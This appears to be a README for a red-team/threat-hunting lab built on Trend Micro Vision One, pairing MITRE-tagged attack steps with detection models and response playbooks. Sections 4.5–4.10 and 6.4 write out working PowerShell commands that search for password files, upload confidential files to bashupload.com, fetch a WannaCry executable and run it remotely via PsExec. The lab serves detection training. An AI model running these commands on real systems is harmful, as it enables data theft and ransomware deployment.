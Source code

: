 # Tools-Red-Team
Threat Hunting using Vision One

Herramientas para evaluar un posible ataque Ransomware

4.1. Current User (T1033)	whoami

4.2. Find System Network Connections (T1049)	netstat -anto; Get-NetTCPConnection

4.3. Network Service Scanning (T1046)	Multiple computers within the network have exposed services on

4.4. View remote shares (T1135)	net view \\10.0.10.12 /all

4.5. Find files (T1005)	
Get-ChildItem C:\ -Recurse -Include confidential.* -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5
Get-ChildItem C:\ -Recurse -Include password.* -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5
 
4.6. Manual Command - (T1059)	Get-Content -Path  c:\confidential\confidential.txt

4.7. Net use (T1021.002)	net use \\10.0.10.12\confidential /user:trendmicro trendmicro;

4.8. Manual Command (T1083)	Get-ChildItem -Path \\10.0.10.12\confidential

4.9. Manual Command "Data Exfiltration" (T1041, T1055, T1572)	Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\confidential.txt
	Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\Passwords.txt

4.10. Manual Command Dropping a 0-day Ransomware! (T1486)	Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:\Users\Public\PSTools.zip"; Expand-Archive -Path "C:\Users\Public\PSTools.zip" -DestinationPath "C:\Users\Public\";
	Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile \\10.0.10.12\confidential\wcry.exe;
	CMD: C:\Users\Public\PsExec.exe -s -accepteula \\10.0.10.12 -u trendmicro -p trendmicro C:\confidential\wcry.exe
 
5.1. Custom Detection Model - Network and using PowerShell	Create Custom Detection Model: Network and using PowerShell

5.2. Custom Detection Model -  Sensitive data using PowerShell	Detecting an individual trying to upload: Sensitive data using PowerShell

5.3. Custom Detection Model - Ransomware Activity	Detecting Ransomware Activity (Compromised computer)

6.1. Security Playbook - Network Scan using Powershell	Detecting AND STOPPING an individual trying to scan for active computers on a network and using PowerShell scripts - Related to Lab 4.3

6.2. Security Playbooks - Sensitive Data Exfiltration	Detecting AND STOPPING an individual trying to upload sensitive data using PowerShell or other scripts - Related to Lab 4.9.

6.3. Security Playbooks - Ransomware Activity	Detecting and ISOLATING a compromised computer that was the victim of a Ransomware attack - Related to Lab 4.10

6.4 Automated Response - Security Playbook - Sensitive Data Exfiltration	"Run the following command using Caldera / Manual Command:

Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\confidential.txt"
	Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:\Users\Public\PSTools.zip"; Expand-Archive -Path "C:\Users\Public\PSTools.zip" -DestinationPath "C:\Users\Public\";
	Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile \\10.0.10.12\confidential\wcry.exe;
	CMD: C:\Users\Public\PsExec.exe -s -accepteula \\10.0.10.12 -u trendmicro -p trendmicro C:\confidential\wcry.exe

 https://api-us1.xbc.trendmicro.com/api/public/download_xbc_agent/v1.0/7f3e5d0c-6c62-4f53-92d8-77deacef473b
 

